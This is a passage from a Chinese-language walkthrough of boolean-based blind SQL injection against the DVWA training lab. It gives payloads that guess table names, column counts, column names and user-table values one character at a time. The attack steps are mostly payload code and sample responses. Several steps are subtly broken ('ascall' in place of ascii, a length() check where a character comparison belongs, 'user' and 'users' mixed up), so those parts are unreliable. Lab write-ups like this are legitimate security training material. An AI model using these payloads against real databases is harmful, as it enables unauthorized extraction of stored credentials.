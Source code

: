 - 爆破表名

  和爆破数据库名的方法一样

  ```
  1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1))=103 #
  =>User ID exists in the database. 第一张表的第一个字符是g
  
  ...
  
  1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1),5,1))=ascall(r) #
  ```

  最终可以得到第一张表名是`guestbook`，第二张表是`user`

- 猜测列的数量，以下只猜测`user`表的列

  ```
  1' and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')=8 #
  => User ID exists in the database. 列数量为8
  ```

- 猜测列长度

  ```
  1' and length(substr( ( select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 0,1 ),1) )=7#
  ...
  1' and length(substr( ( select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 7,1 ),1) )=12#
  ```

  依次爆破得到每一个列的长度

- 猜测列名

  ```
  1' and length(substr( ( select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 0,1 ),1,1) )=ascall_num#
  ...
  1' and length(substr( ( select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 7,1 ),12,1) )=ascall_num#
  ```

  最后可以得到比较重要的两个列`user`和`password`

- 猜测字段长度

  ```
  1' and length(substr((select user from users limit 0,1),1))=5 #
  ```

  `user`列的第一个字段长度为$5$，然后依次的得到第二、三个字段的长度

- 猜测字段名称

  ```
  1' and ascii(substr((select user from users limit 0,1),1,1))=97 #a
  ```

